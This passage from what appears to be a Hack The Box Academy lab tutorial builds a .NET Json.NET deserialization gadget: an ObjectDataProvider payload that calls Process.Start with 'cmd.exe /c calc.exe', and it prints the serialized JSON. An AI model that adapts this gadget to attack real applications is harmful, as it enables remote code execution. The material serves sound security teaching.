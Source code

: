 If you are following along on the provided Tools VM, then we will need to add a reference to the DLL file manually. First, extract the ZIP file `C:\Tools\Newton_Soft_Json.zip` to a destination of your choosing. Next, inside Visual Studio, navigate to `Project > Add Reference...`, select `Browse` and find `Bin\net45\Newtonsoft.Json.dll` from wherever you extracted the ZIP file to.

![image](https://academy.hackthebox.com/storage/modules/240/3/61.png)

Hit `Add` and then `Ok`, and the reference errors should be cleared up. Now, we can build the program and run it. A calculator will spawn; however, there will be no serialized object for us to copy. Instead, an error message will be displayed since the serializer cannot determine certain information due to the new process.

![image](https://academy.hackthebox.com/storage/modules/240/3/16.png)

Based on the error message above, the object was not serializable due to the system not being able to determine the `ExitCode`. We don't need the calculator to spawn now, we just want to see the serialized output, so let's change the value of `MethodName` from `Start` to `Start1`. The method `Start1` does not actually exist, and it should not result in any calculator being spawned. Therefore, ideally, we should obtain serialized JSON output that we can manually modify. This time when we run the program, we get this output:

```json
{
  "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
  "ObjectType": "<SNIP>",
  "MethodName": "Start1",
  "MethodParameters": {
    "$type": "<SNIP>",
    "$values": [
      "C:\\Windows\\System32\\cmd.exe",
      "/c calc.exe"
    ]
  },
  "IsAsynchronous": false,
  "IsInitialLoadEnabled": true,
  "Data": null,
  "Error": {
    "$type": "System.MissingMethodException, mscorlib",
    "ClassName": "System.MissingMethodException",
    "Message": "Attempted to access a missing member.",
    "Data": null,
    "InnerException": null,
    "HelpURL": null,
    "StackTraceString": "   at System.RuntimeType.InvokeMember(String name, BindingFlags bindingFlags, Binder binder, Object target, Object[] providedArgs, ParameterModifier[] modifiers, CultureInfo culture, String[] namedParams)\r\n   at System.Windows.Data.ObjectDataProvider.InvokeMethodOnInstance(Exception& e)",
    "RemoteStackTraceString": null,
    "RemoteStackIndex": 0,
    "ExceptionMethod": "8\nInvokeMember\nmscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089\nSystem.RuntimeType\nSystem.Object InvokeMember(System.String, System.Reflection.BindingFlags, System.Reflection.Binder, System.Object, System.Object[], System.Reflection.ParameterModifier[], System.Globalization.CultureInfo, System.String[])",
    "HResult": -2146233070,
    "Source": "mscorlib",
    "WatsonBuckets": null,
    "MMClassName": "System.Diagnostics.Process",
    "MMMemberName": "Start1",
    "MMSignature": null
  }
}

```
